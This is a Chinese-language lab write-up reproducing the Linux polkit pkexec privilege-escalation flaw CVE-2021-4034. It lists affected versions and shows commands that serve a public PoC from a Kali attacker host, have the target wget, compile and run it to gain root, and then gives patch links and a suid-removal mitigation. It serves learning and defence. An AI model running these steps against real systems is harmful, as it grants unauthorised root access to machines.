 # Linux-Poolkit提权

漏洞复现- Linux Polkit 权限提升漏洞（CVE-2021-4034）

**0x00 前言**

> polkit是一个授权管理器，其系统架构由授权和身份验证代理组成，pkexec是其中polkit的其中一个工具，他的作用有点类似于sudo，允许用户以另一个用户身份执行命令

利用版本

>  Ubuntu 21.10 (Impish Indri) policykit-1 < 0.105-31ubuntu0.1
>
>  Ubuntu 21.04 (Hirsute Hippo) policykit-1 Ignored (reached end-of-life)
>
>  Ubuntu 20.04 LTS (Focal Fossa) policykit-1 < Released (0.105-26ubuntu1.2)
>
>  Ubuntu 18.04 LTS (Bionic Beaver) policykit-1 < Released (0.105-20ubuntu0.18.04.6)
>
>  Ubuntu 16.04 ESM (Xenial Xerus) policykit-1 < Released (0.105-14.1ubuntu0.5+esm1)
>
>  Ubuntu 14.04 ESM (Trusty Tahr) policykit-1 < Released (0.105-4ubuntu3.14.04.6+esm1)
>
>  CentOS 6 polkit < polkit-0.96-11.el6_10.2
>
>  CentOS 7 polkit < polkit-0.112-26.el7_9.1
>
>  CentOS 8.0 polkit < polkit-0.115-13.el8_5.1
>
>  CentOS 8.2 polkit < polkit-0.115-11.el8_2.2
>
>  CentOS 8.4 polkit < polkit-0.115-11.el8_4.2
>
>  Debain stretch policykit-1 < 0.105-18+deb9u2
>
>  Debain buster policykit-1 < 0.105-25+deb10u1
>
>  Debain bookworm, bullseye policykit-1 < 0.105-31.1

`uname -a`查看内核版本

|          | 攻击者         | 靶机           |
| -------- | -------------- | -------------- |
| 操作系统 | kali           | CentOS 7       |
| IP地址   | 192.168.12.135 | 192.168.12.131 |
| 内核     |                | 5.8.7          |

> 这里使用普通用户登录靶机，进行提权，前期入侵操作默认完成

**0x01 获取POC代码**

```shell
https://gitee.com/buxiaomo/CVE-2021-4034
```

将文件存入`/tmp`目录下，开启web服务

```shell
cd /tmp

python -m http.server 8080
```

**0x02 在靶机运行poc代码**

> 如果靶机没有unzip，可以重新使用tar压缩归档

```shell

# 获取漏洞利用工具，此处在kali上使用python开启web服务器，并让被攻击主机下载提权工具源码。
wget http://192.168.12.135:8080/CVE-2021-4034-main.zip

# 解压，编译，安装。
unzip CVE-2021-4034-main.zip
cd CVE-2021-4034-main
make		

# 进行提权。
./cve-2021-4034

# 查看
whoami
# 是root就成功
```

![image-20230225180312545](https://s2.loli.net/2023/02/27/m5dU1KQVFk46W3Z.png)

**0x03 修复方法**

1、更新官方补丁，下载地址：`https://gitlab.freedesktop.org/polkit/polkit/-/commit/a2bf5c9c83b6ae46cbd5c779d3055bff81ded683`

2、根据不同厂商的修复建议或安全通告进行防护。

> Redhat：`https://access.redhat.com/security/cve/CVE-2021-4034`
>
> Ubuntu：`https://ubuntu.com/security/CVE-2021-4034`
>
> Debian：`https://security-tracker.debian.org/tracker/CVE-2021-4034`

3、临时防护可以移除 pkexec 的 suid位。

```shell
 chmod 0755 /usr/bin/pkexec
```

